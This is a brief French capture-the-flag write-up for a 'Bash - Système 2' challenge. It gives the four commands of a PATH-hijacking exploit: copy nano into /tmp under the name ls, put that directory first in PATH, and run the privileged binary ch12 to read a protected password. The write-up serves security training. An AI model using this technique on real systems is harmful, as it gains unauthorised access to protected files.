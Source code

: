 # Challenge Bash - Système 2

## Todo :

Exécuter le code compilé pour afficher le mot de passe 


### Note :

  - alias et export ne fonctionnent pas dans ce cas
  - commande utilise des arguments 

## Exploit :

mkdir -pv /tmp/exploit

cp -avr $(which nano) /tmp/exploit/ls

export PATH=/tmp/exploit:$PATH

./ch12
